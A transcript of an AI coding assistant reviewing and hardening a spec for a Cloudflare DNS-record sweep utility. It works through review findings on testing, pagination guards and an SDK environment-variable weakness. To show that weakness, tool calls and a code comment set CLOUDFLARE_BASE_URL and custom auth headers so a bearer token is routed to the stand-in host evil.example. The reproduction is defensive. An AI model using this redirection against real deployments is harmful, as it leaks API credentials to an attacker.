**Fix:** change the row to "a doomed **stdout** (argparse's usage/`--help`) or **stderr**", and mirror the sibling's phrasing so the two subsections agree.

---

### 8. Clarity / Consistency — **defect.** §13 cites a section that does not exist

§13 row 2 begins *"§5.5: a `main()` test 'would force a client-injection seam…'"*. The current document's §5 is "Shadow paths (PD#3), traced" and has no §5.5 — a leftover from the pre-rewrite numbering. Quality bar: *"Every referenced file has a path a fresh session can resolve."* Same applies to internal anchors, and §13 is exactly the section a future session will mine for lessons.

**Fix:** cite the round-1 section number explicitly as historical (e.g. "§5.5 *of the pre-review draft*") or drop the number.

---

### 9. Clarity / Feasibility — **stylistic-to-real.** Task 6's STOP is rendered as the checkbox it says it is not, and it strands the documentation commit behind the live run

The header says *"**One structural STOP exists** — Task 6 Step 2… It is not a checklist item; it is a hard halt"*, and the body renders it as `- [ ] **Step 2: STOP — operator approval required…**`. The quality bar says *"Human approval gates are structural STOPs (exact-phrase unlock), not list items."* A subagent working a checkbox list can tick it.

Structurally worse: Step 1 writes the CLAUDE.md subsection, Steps 3–5 are the live run, and the **only** `git commit` is Step 6, after the STOP. If the operator never says `RUN THE LIVE SWEEP`, the CLAUDE.md documentation is written but never committed and §12 stays blank indefinitely — the utility ships undocumented in git.

**Fix:** split into **Task 6 — documentation** (Step 1 + commit; entirely offline, no gate) and **Task 7 — live verification** (the STOP as an un-numbered structural halt, then the run, the two cross-checks, §12, the runtime addendum, commit).

---

### 10. Maintainability / PD#11 — **defect.** `origins` is claimed identical to `fqdns.json`'s field, but the two mean different things

R5: *"`zone_id` + `origins` are `fqdns.json`'s fields, unchanged in name and type."* The type matches; the meaning does not. `plugin/cloudflare/fqdns.py:114–120` collects the content of **every proxied record of any type** at a name — the live `fqdns.json` in this repo shows `"*.sitesdev.si.umich.edu": {"origins": ["23.185.0.3", "2620:12a:8001::3", …]}`, i.e. IP addresses. This file's `origins` holds only matching platform-CNAME targets. The CLAUDE.md text in Task 6 Step 1 repeats the equivalence (*"`fqdns.json`'s two fields plus the six"*).

PD#11: *"Terminology stays clear and consistent — within the new design and across the existing codebase."* A downstream consumer that reads both files with one code path will be wrong.

**Fix:** in R5 and in the CLAUDE.md subsection, say "same key and type; **narrower meaning** — `fqdns.json`'s `origins` is every proxied record's content at that name, this file's is only the matching platform-CNAME targets." Also fold the divergence into R5a's table alongside the key-normalization row.

---

### 11. Security / Robustness — real, low severity. The output feeds a destructive rewrite and carries no freshness signal (TOCTOU)

R5 justifies `record_id` by *"the downstream batch rewrite needs the record id for `deletes`"*, and `research.md` confirms `deletes` is a real deletion. Between generating this file and running the batch, a record can be edited or replaced; the file has no capture timestamp, script version, or account/zone inventory, so nothing lets the rewriter refuse stale input. `fqdns.json` has the same shape, but `fqdns.json` does not drive deletions.

**Fix:** either add a one-line rule to R5 and the CLAUDE.md subsection ("regenerate immediately before any rewrite; the file's mtime is the only freshness signal"), or add a sibling `platform-domains-cloudflare.meta.json` (keeping the main file's keyspace pure so Task 6 Step 4's `set(entry) == expected_keys` loop stays valid). Add a §14 question for the rewriter's staleness policy.

---

### 12. Completeness — low. The platform-suffix constant is presented as a definition, not as an assumption

The glossary states as fact: *"**platform domain** | A Pantheon-provided hostname ending in `.pantheonsite.io`"*. Pantheon's legacy platform hostname `*.gotpantheon.com` is not covered, and there is no occurrence of it anywhere in this repo (verified) — so if any custom domain still CNAMEs there, this sweep misses it and reports a clean result. The PROMPT asks for exactly `.pantheonsite.io`, so the *behavior* is correct; the *framing* is not.

**Fix:** state it as a scoped assumption in R4 ("`.pantheonsite.io` only; legacy `*.gotpantheon.com` targets are out of scope per PROMPT line 7") and add a §14 question asking whether any remain.

---

### 13. Correctness — low. §5 lists a `TypeError` shadow path that `main()` does not convert, contradicting R6's "no exit 1"

§5's write row: *"`TypeError` mid-serialize or `OSError` → temp unlinked… `OSError` becomes `StartupError` at the call site"* — only `OSError` does. A `TypeError` would escape as a traceback at exit 1, which R6 says the program does not use. In practice it is unreachable: the SDK parses responses with `construct_type` (`_base_client.py:695`), so every stored value derives from JSON, and the one model (`settings`) goes through `plain()` — I confirmed `construct_type` is lenient and does not raise on shape drift.

**Fix:** replace the §5 cell with the unreachability argument rather than listing it as a live path (or convert it, one line, and keep the table honest). This matters because §5 is the document's PD#3 evidence: *"Trace all four for every new flow."*

---

### 14. Testing — low. The R2a test exports 2 of the ambient credential vars, not all of them

`test_cloudflare_client_sends_only_the_configured_credential` sets `CLOUDFLARE_EMAIL` and `CLOUDFLARE_API_KEY` only. `CLOUDFLARE_API_USER_SERVICE_KEY` (pinned by the same loop) and `CLOUDFLARE_API_TOKEN` are never ambient in any test that asserts the property, so a regression that dropped `user_service_key` from the pin tuple stays green. Same PD#14 clause as finding 2.

**Fix:** set all four (plus the two from finding 3) in that one test.

---

### 15. Process — low, flagged not asserted. Two unverifiable governance claims

- The header states *"The operator asked, for this plan specifically, on 2026-07-30: the `git commit` step ending each task below **is** that authorization."* Nothing in `PROMPT.md` or the repo records that; a fresh-context implementer must take it on faith against CLAUDE.md's standing *"Commit only when asked."* Suggest citing where it was given (transcript/date-stamped line), since the spec is the only artifact the implementer sees.
- `pyproject.toml:105–107` requires *"adding an ignore above, or a per-file-ignores entry below, requires a justification comment here AND a LEDGER.md entry (until the campaign closes; its successor rule lands in CLAUDE.md at I14d)."* The spec supplies the justification comments (good) but says nothing about the LEDGER/successor rule. The campaign is complete, so this may be moot — but the spec should say so rather than be silent.

---

## Dimension summary, with relative weight

| # | Dimension | Weight here | Verdict |
|---|---|---|---|
| 9 | **Testing (PD#14)** | **Highest** — the plan is test-first and an implementer subagent cannot ask questions | **FAIL** — findings 1, 2, 14 |
| 8 | **Security** | **High** — the script authenticates with production credentials against a live control plane | **FAIL** — findings 3, 11 |
| 7 | **Robustness** | **High** — external system (Cloudflare) is the whole subject | **FAIL** — findings 4, 5 |
| 1 | Correctness | High | Mostly PASS; findings 7, 13. Every SDK-internal claim I checked (`auth_headers`/`default_headers` line numbers, `extra="allow"`, `__iter__`, `status_code`, `Settings.model_dump`, `APIConnectionError` MRO, `MARKER_RE`, `normalize`, `get_env`) verified exactly |
| 3 | Consistency | Medium-high | **FAIL** — findings 5, 6, 7, 8, 9 |
| 10 | Observability (PD#5) | Medium-high — a silent multi-minute run | **FAIL** — finding 6 |
| 2 | Completeness | Medium | Findings 5, 12; §5's PD#3 table is otherwise substantive and real |
| 4 | Clarity | Medium | Findings 8, 9; otherwise implementable as written — §3, §4, §7 are specific and unambiguous |
| 5 | Feasibility | Medium | **FAIL** on finding 1 (the plan cannot be executed as sequenced); the design itself is sound |
| 6 | Maintainability | Lower — deliberately temporary, §11 deletion checklist is complete and correct | Finding 10 |

**On the items the dispatch asked me to focus on:** §R3's `total_count` mechanism verified exactly as claimed (including the no-op), but the *response* to a mismatch is wrong (4) and the guard's own liveness is unobservable (6) and its scope is inconsistent (5). §R2a's field-pinning is correct and its test does assert the security property — but the "two routes / closes both" exhaustiveness claim is false (3). §R5/R5a's six fields and `.model_dump(mode="json")` verified and coherent; first-record-wins across eight fields is coherent and correctly warned; only the `origins` semantics claim is wrong (10). §R6's table is still not exhaustive (7). §4, §5, §13, §14 are substantive, not box-ticking — §13 in particular is the strongest part of the document — with the caveats in 6, 8 and 13. Task 6's STOP is real but structurally misplaced (9).
agentId: a20aea12c4d3a5056 (use SendMessage with to: 'a20aea12c4d3a5056', summary: '<5-10 word recap>' to continue this agent)
<usage>subagent_tokens: 199090
tool_uses: 47
duration_ms: 809323</usage>
```

## Assistant

Round 2: **NOT PASS, 15 findings** — mostly new, and two are blockers my own verification missed. Verifying the two most serious myself before acting:

### ⚙ Tool call: `Bash`

```json
{
  "command": "grep -n \"check\\|run_gates\\|pytest\" run-tests | sed -n '1,40p' | grep -n \"ruff\\|return completed\\|run_gates\\|pytest\" ",
  "description": "Check run-tests gate ordering"
}
```

### ↳ Tool result

```
1:2:"""Thin wrapper over pytest for the pantheon-sitehealth-emails harness.
2:8:  ./run-tests --coverage      pytest-cov (reported, no gate; in-process tiers)
3:12:Any other arguments (-k EXPR, -m MARK, paths, ...) are passed straight through to pytest.
4:26:    `uvx ruff@0.15.22` -- PINNED, not `uvx ruff`.  Mirrors .claude/hooks/ruff-check.sh -- the
7:68:def run_gates():
8:81:    config is the single source of truth, matching .claude/hooks/ruff-check.sh.  Output is
11:143:    # Lint AND type-check BEFORE pytest, and gate on them -- in --fast and full alike.  They
12:147:    rc = run_gates()
13:151:    pytest_args = ["-p", "no:cacheprovider"]
14:154:        pytest_args += ["-m", "not live and not slow"]
15:158:        pytest_args += ["--llm", "-q", "--tb=short", "--color=no", "--no-header"]
16:160:        pytest_args += ["--cov", "--cov-report=term-missing"]
17:162:        pytest_args += ["--snapshot-update"]
18:164:    pytest_args += passthrough
19:165:    return subprocess.call([sys.executable, "-m", "pytest", *pytest_args], cwd=str(ROOT))
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "cd /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad && source /workspace/.venv/bin/activate && python - <<'PY'\nimport os\nfrom cloudflare import Cloudflare\nos.environ[\"CLOUDFLARE_BASE_URL\"] = \"https://evil.example/v4\"\nos.environ[\"CLOUDFLARE_CUSTOM_HEADERS\"] = \"X-Auth-Email: attacker@evil.example\\nX-Auth-Key: evil-key\"\n# the spec's build_client() verbatim:\ndef build_client(**creds):\n    client = Cloudflare(**creds)\n    for field in (\"api_token\", \"api_key\", \"api_email\", \"user_service_key\"):\n        if field not in creds:\n            setattr(client, field, None)\n    return client\nc = build_client(api_token=\"tok-123\")\nfrom cloudflare._models import FinalRequestOptions\nreq = c._build_request(FinalRequestOptions(method=\"get\", url=\"/zones\"))\nprint(\"URL     :\", req.url)\nprint(\"headers :\", {k: v for k, v in req.headers.items() if \"auth\" in k.lower()})\nPY",
  "description": "Reproduce the base_url/custom_headers bypass"
}
```

### ↳ Tool result

```
URL     : https://evil.example/v4/zones
headers : {'authorization': 'Bearer tok-123', 'x-auth-email': 'attacker@evil.example', 'x-auth-key': 'evil-key'}
Shell cwd was reset to /workspace
```

## Assistant

Both confirmed. The `base_url` one is worse than the defect R2a fixes — the **bearer token is sent to an attacker-controlled host**. Verifying the proposed fixes actually close it, and reproducing the F401 sequencing blocker:

### ⚙ Tool call: `Bash`

```json
{
  "command": "cd /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad && source /workspace/.venv/bin/activate && python - <<'PY'\nimport os\nfrom cloudflare import Cloudflare\nfrom cloudflare._models import FinalRequestOptions\nos.environ[\"CLOUDFLARE_BASE_URL\"] = \"https://evil.example/v4\"\nos.environ[\"CLOUDFLARE_CUSTOM_HEADERS\"] = \"X-Auth-Email: attacker@evil.example\\nX-Auth-Key: evil-key\"\nos.environ[\"CLOUDFLARE_API_USER_SERVICE_KEY\"] = \"ambient-usk\"\n\nAPI_BASE_URL = \"https://api.cloudflare.com/client/v4\"\ndef build_client(**creds):\n    client = Cloudflare(**creds, base_url=API_BASE_URL)\n    for field in (\"api_token\", \"api_key\", \"api_email\", \"user_service_key\"):\n        if field not in creds:\n            setattr(client, field, None)\n    client._custom_headers = {}\n    return client\n\nc = build_client(api_token=\"tok-123\")\nreq = c._build_request(FinalRequestOptions(method=\"get\", url=\"/zones\"))\nprint(\"URL     :\", req.url)\nprint(\"auth hdr:\", {k: v for k, v in req.headers.items() if \"auth\" in k.lower()})\nPY",
  "description": "Verify the hardened build_client closes both bypasses"
}
```

### ↳ Tool result

```
URL     : https://api.cloudflare.com/client/v4/zones
auth hdr: {'authorization': 'Bearer tok-123'}
Shell cwd was reset to /workspace
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "cd /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad && mkdir -p stage && python - <<'PY'\nimport re, pathlib\nspec = pathlib.Path(\"/workspace/development/2026-07-30-platform-domain-util2/SPEC.md\").read_text()\nblocks = re.findall(r\"```python\\n(.*?)```\", spec, re.S)\nscript = [b for b in blocks if b.lstrip().startswith((\"#!/usr/bin/env python\", \"def resolve_env_marker\",\n          \"def plain(\", \"def write_json_atomic\", \"def expected_record_count\"))]\npathlib.Path(\"stage/task1-only\").write_text(script[0])\nPY\nsource /workspace/.venv/bin/activate && echo \"=== ruff on the script as it stands after Task 1 Step 3:\" && uvx ruff@0.15.22 check --config /workspace/pyproject.toml --output-format concise stage/task1-only 2>&1 | head -12",
  "description": "Reproduce the F401 blocker at Task 1"
}
```

### ↳ Tool result

```
=== ruff on the script as it stands after Task 1 Step 3:
stage/task1-only:1:1: EXE001 Shebang is present but file is not executable
stage/task1-only:26:8: F401 [*] `argparse` imported but unused
stage/task1-only:27:8: F401 [*] `json` imported but unused
stage/task1-only:28:8: F401 [*] `os` imported but unused
stage/task1-only:30:8: F401 [*] `shlex` imported but unused
stage/task1-only:31:8: F401 [*] `sys` imported but unused
stage/task1-only:32:8: F401 [*] `tempfile` imported but unused
stage/task1-only:33:8: F401 [*] `tomllib` imported but unused
stage/task1-only:34:21: F401 [*] `pathlib.Path` imported but unused
stage/task1-only:36:8: F401 [*] `cloudflare` imported but unused
stage/task1-only:37:24: F401 [*] `cloudflare.Cloudflare` imported but unused
Found 11 errors.
Shell cwd was reset to /workspace
```

## Assistant

Both blockers confirmed, and the security fix verified working (`URL: https://api.cloudflare.com/client/v4/zones`, `{'authorization': 'Bearer tok-123'}` — nothing else).

**Round 2 headline:** 13 of the 15 findings have obvious fixes I'll apply. Two are worth your attention:

1. **The plan cannot be executed as sequenced** (finding 1). `./run-tests` gates ruff over the whole repo *before* pytest, and Task 1 introduces the full import block while using only `re` — measured **10× F401**, so Tasks 1–4's checkpoints never reach pytest. My round-1 verification missed this because I only ran ruff against the *finished* file. Fix: introduce each import in the task that first uses it.
2. **R2a was not exhaustive, and the gap is worse than the defect it fixed** (finding 3). `CLOUDFLARE_BASE_URL` and `CLOUDFLARE_CUSTOM_HEADERS` are two more ambient env vars the SDK reads; the pin closes neither. Reproduced: the bearer token goes to `https://evil.example/v4/zones`. Fix verified above — pin `base_url` and clear `_custom_headers`.

One finding refines a decision you made, so it's yours:

### ⚙ Tool call: `AskUserQuestion`

```json
{
  "questions": [
    {
      "question": "The truncation check can false-positive: `total_count` comes from page 1, so a record added or deleted mid-sweep makes `seen != expected`. As specified, that aborts a multi-minute run and blames \"truncated\" — a misdiagnosis. How should a mismatch be handled?",
      "header": "Mismatch",
      "multiSelect": false,
      "options": [
        {
          "label": "Re-list the zone once, then decide (Recommended)",
          "description": "On mismatch, fetch that one zone again. If the second read agrees with its own total_count, it was a concurrent DNS edit — log at -v and continue. If it disagrees again, it is real truncation — abort. Distinguishes the two causes rather than guessing, costs one extra request on a rare path, and keeps the guard's teeth.",
          "preview": "zone example.edu: read 137 of 138 records; re-reading\nzone example.edu: re-read agrees (139 of 139) — a record\n  changed mid-sweep, continuing\n\n...or...\n\nERROR: zone example.edu: read 137 of 138 records on two\n  consecutive reads — the record list is truncated"
        },
        {
          "label": "Abort, but reword the message",
          "description": "Keep the single-read hard abort you chose, and only fix the misdiagnosis: name both possible causes (truncation OR a concurrent edit) and tell the operator to re-run. Simplest; a busy zone could abort a long sweep for a benign reason, with re-running as the only recourse."
        },
        {
          "label": "Abort, plus an --allow-truncated escape hatch",
          "description": "Hard abort by default, with a flag that downgrades it to a loud ATTENTION and still writes the file — mirroring the sibling's --allow-any-source-ip. Gives the operator a way through, at the cost of a flag that could mask a real truncation if it becomes habitual."
        }
      ]
    }
  ]
}
```

### ↳ Tool result

```
Your questions have been answered: "The truncation check can false-positive: `total_count` comes from page 1, so a record added or deleted mid-sweep makes `seen != expected`. As specified, that aborts a multi-minute run and blames "truncated" — a misdiagnosis. How should a mismatch be handled?"="Re-list the zone once, then decide (Recommended)" selected preview:
zone example.edu: read 137 of 138 records; re-reading
zone example.edu: re-read agrees (139 of 139) — a record
  changed mid-sweep, continuing

...or...

ERROR: zone example.edu: read 137 of 138 records on two
  consecutive reads — the record list is truncated. You can now continue with these answers in mind.
```

## Assistant

Finding 5 (zone/account lists paginate identically and are unguarded) I'm applying rather than asking about — a truncated *zone* list silently omits every record in the missing zones, which is strictly worse than the case you already chose to guard. Rebuilding and re-verifying the code:

### ⚙ Tool call: `Bash`

```json
{
  "command": "cd /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad && python - <<'PY'\nimport pathlib\np = pathlib.Path(\"find-platform-domains-cloudflare\")\ns = p.read_text()\n\n# --- finding 3: pin base_url and clear _custom_headers -----------------------------------\ns = s.replace('''DEFAULT_CONFIG = \"pantheon-sitehealth-emails.toml\"''',\n'''DEFAULT_CONFIG = \"pantheon-sitehealth-emails.toml\"\nAPI_BASE_URL = \"https://api.cloudflare.com/client/v4\"   # pinned; see build_client''')\n\ns = s.replace('''    client = Cloudflare(**creds)\n    for field in (\"api_token\", \"api_key\", \"api_email\", \"user_service_key\"):\n        if field not in creds:\n            setattr(client, field, None)\n    return client''',\n'''    client = Cloudflare(**creds, base_url=API_BASE_URL)\n    for field in (\"api_token\", \"api_key\", \"api_email\", \"user_service_key\"):\n        if field not in creds:\n            setattr(client, field, None)\n    client._custom_headers = {}  # noqa: SLF001 -- $CLOUDFLARE_CUSTOM_HEADERS is merged LAST\n    # into default_headers, so it overrides the pinned Omit()s above; there is no public API\n    # for \"ignore that variable\".  Measured: without this line and the base_url= above,\n    #   CLOUDFLARE_BASE_URL=https://evil.example/v4 \\\\\n    #   CLOUDFLARE_CUSTOM_HEADERS=$\\'X-Auth-Email: attacker@evil.example\\\\nX-Auth-Key: evil-key\\'\n    # sends `Authorization: Bearer <the real token>` to evil.example -- the pinned credential\n    # leaves the machine.  That is strictly worse than the defect the pin above fixes.\n    return client''')\np.write_text(s)\nprint(\"build_client hardened\")\nPY\ngrep -n \"API_BASE_URL\\|_custom_headers\" find-platform-domains-cloudflare 2>/dev/null | head",
  "description": "Harden build_client in scratch"
}
```

### ↳ Tool result

```
build_client hardened
43:API_BASE_URL = "https://api.cloudflare.com/client/v4"   # pinned; see build_client
127:    client = Cloudflare(**creds, base_url=API_BASE_URL)
131:    client._custom_headers = {}  # noqa: SLF001 -- $CLOUDFLARE_CUSTOM_HEADERS is merged LAST
Shell cwd was reset to /workspace
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "cd /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad && python - <<'PY'\nimport pathlib\np = pathlib.Path(\"find-platform-domains-cloudflare\")\ns = p.read_text()\n\ns = s.replace(\"SPEC.md section 8 for the checklist.\", \"SPEC.md section 11 for the checklist.\")\ns = s.replace(\"from pathlib import Path\\n\", \"from pathlib import Path\\nfrom typing import NamedTuple\\n\")\n\n# --- build_client docstring: four routes, not two ---------------------------------------\ns = s.replace('''    environment (CLOUDFLARE_API_TOKEN / _API_KEY / _EMAIL / _API_USER_SERVICE_KEY), and ambient\n    values then reach the wire by TWO independent routes --\n\n      1. `auth_headers` returns the FIRST of email -> key -> token -> user_service_key that is\n         set, and only that one; and\n      2. `default_headers` separately adds X-Auth-Key / X-Auth-Email whenever those attributes\n         are not None.\n\n    So Cloudflare(api_token=...) on a host exporting CLOUDFLARE_EMAIL authenticates with\n    X-Auth-Email and never sends the token.  Nulling the fields the config did not supply closes\n    BOTH routes, because both read these attributes at request-build time.  This pin is therefore\n    SDK-version-sensitive: it was measured against 5.4.0, and pyproject declares the dependency\n    unpinned as \"cloudflare\".  (The main program's plugin/cloudflare/client.py has the same\n    latent defect; fixing it is a separate change.)\n    \"\"\"''',\n'''    environment.  It reads SIX variables, and ambient values reach the wire by FOUR routes --\n\n      1. `auth_headers` returns the FIRST of email -> key -> token -> user_service_key that is\n         set, and only that one -- so an ambient CLOUDFLARE_EMAIL beats a configured token;\n      2. `default_headers` separately adds X-Auth-Key / X-Auth-Email whenever those attributes\n         are not None;\n      3. $CLOUDFLARE_CUSTOM_HEADERS is merged LAST into default_headers, overriding 1 and 2; and\n      4. $CLOUDFLARE_BASE_URL redirects every request, sending the configured credential to an\n         arbitrary host.\n\n    Routes 1 and 2 are closed by nulling the fields the config did not supply (both read these\n    attributes at request-build time); route 3 by clearing _custom_headers; route 4 by pinning\n    base_url.  Routes 3 and 4 were missed on the first pass -- and 4 is worse than the defect\n    this function was written for, because the credential LEAVES THE MACHINE rather than merely\n    failing to authenticate.  This pin is SDK-version-sensitive: measured against cloudflare\n    5.4.0, and pyproject declares the dependency unpinned as \"cloudflare\".  (The main program's\n    plugin/cloudflare/client.py has all four; fixing it is a separate change.)\n    \"\"\"''')\n\n# --- replace the whole walk with the guarded, observable version ------------------------\nold_start = s.index(\"def expected_record_count(page):\")\nold_end = s.index(\"def write_json_atomic(path, data)\")\ns = s[:old_start] + '''def expected_record_count(page):\n    \"\"\"Cloudflare's total_count for a paginated response, or None when it is not available.\n\n    V4PagePaginationArrayResultInfo declares only page/per_page, but its model_config is\n    extra=\"allow\", so the API's count/total_count survive as model_extra.  Returning None rather\n    than guessing makes the caller's cross-check a no-op wherever the field is absent, so it can\n    never abort a healthy sweep -- at the cost of the guard silently not running, which is why\n    read_all reports whether it was live.\n    \"\"\"\n    info = getattr(page, \"result_info\", None)\n    extra = getattr(info, \"model_extra\", None) or {}\n    total = extra.get(\"total_count\")\n    return total if isinstance(total, int) else None\n\n\ndef read_all(fetch, what, notify=None):\n    \"\"\"Read every page of a paginated list, cross-checked against Cloudflare's own total_count.\n\n    Returns (items, checked).  `checked` is False when the API supplied no total_count: a guard\n    whose own liveness is invisible is not a guard, so the caller reports the coverage.\n\n    `fetch` is a zero-argument callable, not a page, so a re-read can repeat the whole request.\n    Iterating the page object walks EVERY page (BaseSyncPage.__iter__ -> iter_pages), so `items`\n    is complete -- reading page.result instead would silently take page 1 only.\n\n    A mismatch has two possible causes, and conflating them misdiagnoses the common one:\n    total_count is computed for the FIRST page, so a record or zone added or deleted between\n    that page and the last makes the counts differ for an entirely benign reason -- likely\n    across a sweep measured in tens of minutes.  One re-read tells them apart.  A second read\n    that agrees with its OWN total_count is a concurrent edit, and is the answer we keep; a\n    second disagreement is a truncated list and is fatal, because writing the file anyway would\n    ship a silently incomplete answer -- the same reasoning that makes zero zones fatal.\n    \"\"\"\n    page = fetch()\n    items = list(page)\n    expected = expected_record_count(page)\n    if expected is None:\n        return items, False\n    if len(items) == expected:\n        return items, True\n\n    if notify:\n        notify(f\"{what}: read {len(items)} of {expected}; re-reading to tell a concurrent \"\n               \"change apart from a truncated list\")\n    retry_page = fetch()\n    retry_items = list(retry_page)\n    retry_expected = expected_record_count(retry_page)\n    if retry_expected is not None and len(retry_items) == retry_expected:\n        if notify:\n            notify(f\"{what}: re-read agrees ({len(retry_items)} of {retry_expected}) -- something \"\n                   \"changed mid-sweep, continuing with the re-read\")\n        return retry_items, True\n    raise StartupError(\n        f\"{what}: read {len(items)} of {expected}, then {len(retry_items)} of {retry_expected} \"\n        \"on a re-read -- the list is truncated, so the output would be silently incomplete; \"\n        \"not writing a partial file\")\n\n\ndef api_error_text(e):\n    \"\"\"A message for a Cloudflare API failure that NEVER includes the response body.\n\n    APIStatusError's str() is \"Error code: NNN - {body}\"; a DNS-record body echoes record\n    contents and an auth-failure body can echo the credential.  The class plus the status code is\n    what an operator needs in order to act.\n    \"\"\"\n    status = getattr(e, \"status_code\", None)\n    if status is not None:\n        return f\"{type(e).__name__}: HTTP {status}\"\n    return f\"{type(e).__name__}: {e}\"\n\n\nclass SweepResult(NamedTuple):\n    \"\"\"What one sweep found, plus what it can honestly say about its own completeness.\"\"\"\n\n    entries: dict          # the output mapping, keyed by normalized FQDN\n    warnings: list         # duplicate-name ATTENTION lines, printed before the write\n    accounts: int          # accounts listed\n    zones: int             # zones listed across those accounts\n    records: int           # DNS records actually read and inspected\n    zones_checked: int     # zones whose record count Cloudflare let us cross-check\n\n\ndef fetch_platform_cnames(client, *, verbose=False):\n    \"\"\"Walk every account -> zone -> DNS record and collect the platform-domain CNAMEs.\n\n    No `proxied=` filter and no `type=` filter on the record list: every record in every zone is\n    fetched and inspected here.  That is what \"consider all DNS records\" means, and per the spec\n    no work goes into making it faster.  (If a run ever becomes painful, type=\"CNAME\" on the\n    records list call is the one-word change.)\n\n    All THREE list endpoints paginate identically and all three are cross-checked by read_all: a\n    short ZONE list silently omits every record in the missing zones, which is strictly worse\n    than a short record list, and the zero-zones guard below only catches the degenerate case.\n\n    Records are read one zone at a time rather than one record at a time: a re-read has to be\n    able to replace a whole zone's list, and the largest single zone is a trivial amount of\n    memory next to the whole organization's records.\n    \"\"\"\n    def note(message):\n        if verbose:\n            print(message, file=sys.stderr, flush=True)\n\n    try:\n        accounts, _ = read_all(client.accounts.list, \"accounts\", note)\n        zones = []\n        for account in accounts:\n            got, _ = read_all(\n                lambda account_id=account.id: client.zones.list(account={\"id\": account_id}),\n                f\"zones in account {account.id}\", note)\n            zones.extend(got)\n    except cloudflare.CloudflareError as e:\n        raise StartupError(f\"listing accounts/zones failed: {api_error_text(e)}\") from e\n\n    if not zones:\n        raise StartupError(\n            f\"Cloudflare returned {len(accounts)} account(s) but 0 zones -- the credentials \"\n            \"likely lack Account:Read or DNS:Read (an accounts list that comes back empty \"\n            \"yields zero zones too).\")\n\n    tally = {\"records\": 0, \"checked\": 0}\n\n    def zone_records():\n        \"\"\"(zone_id, record) pairs, one zone at a time.\"\"\"\n        for number, zone in enumerate(zones, start=1):\n            records, checked = read_all(\n                lambda zone_id=zone.id: client.dns.records.list(zone_id=zone_id),\n                f\"zone {zone.name}\", note)\n            tally[\"records\"] += len(records)\n            tally[\"checked\"] += 1 if checked else 0\n            note(f\"[{number}/{len(zones)}] zone {zone.name} -- {len(records)} records\"\n                 f\"{'' if checked else ' (total_count unavailable, not cross-checked)'}\")\n            for dns_record in records:\n                yield zone.id, dns_record\n\n    try:\n        entries, warnings = collect_entries(zone_records())\n    except cloudflare.CloudflareError as e:\n        raise StartupError(f\"listing DNS records failed: {api_error_text(e)}\") from e\n\n    return SweepResult(entries, warnings, len(accounts), len(zones),\n                       tally[\"records\"], tally[\"checked\"])\n\n\n''' + s[old_end:]\n\n# --- main(): consume SweepResult, report coverage ---------------------------------------\ns = s.replace('''        entries, warnings, zone_count, account_count = fetch_platform_cnames(\n            client, verbose=options.verbose)\n        for message in warnings:''',\n'''        sweep = fetch_platform_cnames(client, verbose=options.verbose)\n        entries = sweep.entries\n        for message in sweep.warnings:''')\ns = s.replace('''        dns_only = sum(1 for entry in entries.values() if not entry[\"proxied\"])\n        print(f\"Wrote {len(entries)} platform-domain CNAMEs ({dns_only} DNS-only, invisible to \"\n              f\"fqdns.json) from {zone_count} zones in {account_count} account(s) to \"\n              f\"{OUTPUT_FILE}.\", file=sys.stderr, flush=True)\n        if not entries:\n            print(f\"ATTENTION: no platform-domain CNAMEs found in {zone_count} zones; \"\n                  f\"{OUTPUT_FILE} was written empty.\", file=sys.stderr, flush=True)''',\n'''        dns_only = sum(1 for entry in entries.values() if not entry[\"proxied\"])\n        print(f\"Wrote {len(entries)} platform-domain CNAMEs ({dns_only} DNS-only, invisible to \"\n              f\"fqdns.json) from {sweep.records} records in {sweep.zones} zones in \"\n              f\"{sweep.accounts} account(s) to {OUTPUT_FILE}.\", file=sys.stderr, flush=True)\n        # Report the guard's own coverage: a truncation check that silently never ran looks\n        # exactly like one that ran and found nothing wrong.\n        print(f\"Truncation cross-check active for {sweep.zones_checked} of {sweep.zones} zones.\",\n              file=sys.stderr, flush=True)\n        if not entries:\n            print(f\"ATTENTION: no platform-domain CNAMEs found in {sweep.zones} zones; \"\n                  f\"{OUTPUT_FILE} was written empty.\", file=sys.stderr, flush=True)''')\ns = s.replace(\"that is accepted and documented in SPEC section 8.4.\", \"that is accepted and documented in SPEC section 8.4.\")\np.write_text(s)\nprint(\"rewritten\")\nPY\ngrep -c \"\" /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/find-platform-domains-cloudflare",
  "description": "Rewrite the walk with guards and observability"
}
```

### ↳ Tool result

```
rewritten
492
Shell cwd was reset to /workspace
```

### ⚙ Tool call: `Write`

```json
{
  "file_path": "/tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/test_find_platform_domains_cloudflare.py",
  "content": "\"\"\"Offline tests for the find-platform-domains-cloudflare utility (SPEC section 7).\n\nThe script has no .py extension, so it is loaded with the SourceFileLoader idiom the suite\nalready uses for standalone scripts and check/plugin modules (see\ntests/unit/test_find_platform_domains_dns.py).  It is loaded FRESH PER TEST so no module-level\nstate leaks between tests -- which is also what makes monkeypatching module attributes safe in\nthe main() tests at the bottom (SPEC section 4, seams).\n\nImports: each task ADDS to the block below, in the task that first needs the name.  Editing the\ntop block is fine; adding an import further down the file is what ruff's E402 forbids, and E402\nis not in the tests/** ignore list.\n\nTEMPORARY, deleted with the script after the Pantheon CDN migration -- see\ndevelopment/2026-07-30-platform-domain-util2/SPEC.md section 11.\n\"\"\"\nimport importlib.util\nimport json\nimport types\nfrom importlib.machinery import SourceFileLoader\nfrom pathlib import Path\n\nimport pytest\n\npytestmark = pytest.mark.unit\n\nSCRIPT = Path(__file__).resolve().parent.parent.parent / \"find-platform-domains-cloudflare\"\n\n\n@pytest.fixture\ndef fpc():\n    \"\"\"The utility, loaded fresh.  Its entry point is __main__-guarded, so import runs nothing.\"\"\"\n    loader = SourceFileLoader(\"find_platform_domains_cloudflare_probe\", str(SCRIPT))\n    spec = importlib.util.spec_from_loader(loader.name, loader)\n    assert spec is not None\n    module = importlib.util.module_from_spec(spec)\n    